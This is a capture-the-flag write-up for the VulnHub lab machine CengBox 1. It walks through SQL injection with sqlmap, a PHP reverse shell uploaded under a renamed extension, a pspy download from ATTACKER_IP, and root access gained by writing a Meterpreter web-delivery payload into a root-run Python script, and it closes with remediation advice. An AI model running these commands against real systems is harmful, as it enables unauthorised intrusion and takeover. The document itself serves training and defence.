





# CengBox: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.106 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | root.txt (value in screenshot) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/cengbox-1,475/) |

## Attack Summary

nmap → dirb (uploads, masteradmin) → sqlmap on login → upload filter bypass (.ceng extension) → reverse shell → pspy reveals root-run md5check.py → MSF web delivery payload → root Meterpreter

## Methodology

1. Network discovery and port scan
2. Directory brute-force to find admin panel and upload directory
3. SQL injection on login form to extract credentials
4. File upload filter bypass to upload PHP reverse shell
5. Lateral movement via credential reuse
6. Privilege escalation via writable root-scheduled Python script

---

## Step 1: Network Discovery

```bash
sudo netdiscover
nmap -p- -A 192.168.1.106
```

Port 80 open (Apache). Browse to the web application.



---

## Step 2: Directory Enumeration

```bash
dirb http://192.168.1.106/ /usr/share/wordlists/big.txt
# Found: /uploads, /masteradmin

dirb http://192.168.1.106/masteradmin -X .php
# Found: login.php, upload.php
```



---

## Step 3: SQL Injection on Admin Login

Brute-force fails. Use sqlmap to extract credentials:

```bash
sqlmap -u http://192.168.1.106/masteradmin/login.php --forms --dbs --batch
sqlmap -u http://192.168.1.106/masteradmin/login.php --forms \
  -D cengbox --dump-all --batch
```

Recovered from the `admin` table:
- **Username:** `masteradmin`
- **Password:** `C3ng0v3R00T1!`



---

## Step 4: File Upload Filter Bypass

Log in to `/masteradmin/login.php`. The upload endpoint rejects `.php` files. Rename the pentestmonkey reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.ceng
# Edit: set $ip and $port
```

Upload `shell.ceng` via the admin upload panel. Start a listener:

```bash
nc -lvp 1234
```

Trigger the shell by browsing to `/uploads/shell.ceng`.

Stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

Switch to the `cengover` user using the password found in the database:

```bash
su cengover
# password: C3ng0v3R00T1!
cat user.txt
```



---

## Step 5: Privilege Escalation — Writable Root-Run Python Script

Upload and run pspy to detect root-scheduled processes:

```bash
cd /tmp
wget http://ATTACKER_IP/pspy64
chmod +x pspy64
./pspy64
# Shows: /usr/bin/python3 /home/cengover/md5check.py running as UID=0
```

The script is writable. Generate a Meterpreter payload with Metasploit:

```
use exploit/multi/script/web_delivery
set target 7      # Python
set lhost 192.168.1.112
set lport 6789
exploit
```

Copy the generated Python one-liner into `md5check.py`:

```bash
echo 'exec(__import__("base64").b64decode("PAYLOAD"))' > /home/cengover/md5check.py
```

When root runs the script, a Meterpreter session opens.

```
cat /root/root.txt
```



---

## Lessons Learned

1. **SQL injection on login forms** with parameter-based queries remains a prevalent finding — use prepared statements
2. **Upload filter bypass via extension renaming** (.php → .ceng) shows that blacklist-only validation is insufficient; validate MIME type server-side
3. **World-writable scripts executed by root** are a critical misconfiguration; cron/scheduled-task scripts must be owned and writable only by root
4. **pspy** is a powerful tool for discovering root-scheduled processes without root access

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection | Use PDO/MySQLi prepared statements |
| File upload filter bypass | Whitelist allowed MIME types; store uploads outside web root |
| Writable root-owned script | Set proper ownership (`chown root:root`), permissions (`chmod 700`) |
